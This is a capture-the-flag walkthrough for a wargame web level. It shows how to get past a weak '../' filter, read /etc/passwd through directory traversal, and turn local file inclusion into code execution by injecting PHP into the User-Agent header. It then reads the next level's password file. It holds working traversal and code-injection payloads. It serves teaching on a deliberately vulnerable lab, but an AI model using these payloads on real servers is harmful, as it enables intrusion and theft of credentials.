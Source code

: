 First thing we can see here is the `str_replace` function is being used to replace any `../`'s that we enter into our request. But it's not doing it very well. We can quite easily trick it into creating a proper `../` for us by just mucking about with the amount of dots and slashes we put on the file path. 

`..././` gets turned into `../`, then it's just a matter of working out how many we need to put into our request to force the directory traversal (we know there is DT because the comments tell us as much)

We also know that whatever we do is being written into a log file:

```
 function logRequest($message){
        $log="[". date("d.m.Y H::i:s",time()) ."]";
        $log=$log . " " . $_SERVER['HTTP_USER_AGENT'];
        $log=$log . " \"" . $message ."\"\n"; 
        $fd=fopen("/var/www/natas/natas25/logs/natas25_" . session_id() .".log","a");
        fwrite($fd,$log);
        fclose($fd);
    }
```

See^, log file.

So, our full request needs to look something like the following...

`GET /?lang=<breakouts>/var/www/natas/natas25/logs/natas25_<session_token>.log`

But, before we can do that, we need to figure out how many breakouts we need. 

`GET /?lang=..././..././..././..././.../etc/passwd`

That should echo back at you, if it doesn't then you don't have the correct amount of breakouts in there. 

Once you see that come back we need to figure out how to get the password for the next level. To do this we need to inspect the log file that is being created for our session token. 

```
[10.05.2018 03::41:34] Mozilla/5.0 (X11; Linux x86_64; rv:61.0) Gecko/20100101 Firefox/61.0 "Directory traversal attempt! fixing request."
```

Huh, that looks like a UserAgent... 

Lets try something funky then...

Replace our UserAgent with the following:

```
<?php phpinfo(); ?>
```

Boosh. For those keeping score, that's a LFI, that leads to DT, which ends up as RCE... All from the same page! 

Now all we need to do is replace `phpinfo()` with `cat /etc/natas_webpass/natas26`

> Note: if you run into issues, you can just change your Session Token to whatever you like and use that instead of the autogenerated one. I ran into an issue where I ran the `cat` command wrong then the log file kept failing on that session. I ended up making a session token called `fred` :)
